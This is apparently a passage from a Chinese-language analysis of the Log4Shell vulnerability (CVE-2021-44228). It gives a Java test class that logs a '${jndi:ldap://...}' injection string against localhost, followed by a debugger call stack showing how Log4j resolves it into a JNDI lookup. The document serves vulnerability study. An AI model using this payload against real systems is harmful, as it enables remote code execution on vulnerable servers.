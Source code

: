 ### 测试代码

```bash
package org.example;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class CVE202144228 {
    public static final Logger logger = LogManager.getLogger(CVE202144228.class);
    public static void main(String[] args) {
        String message = "${jndi:ldap://127.0.0.1:1389/0xrsto}";
        logger.error("error info:{}",message);
    }
}
```

### 函数调用栈

根据 JNDI 的前置知识，在 InitialContext 类的 lookup 方法下断点或者 NamingManager 类的 getObjectFactoryFromReference 方法下断点

```bash
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:344, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2034, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1899, AbstractLogger (org.apache.logging.log4j.spi)
error:866, AbstractLogger (org.apache.logging.log4j.spi)
main:10, CVE202144228 (org.example)
```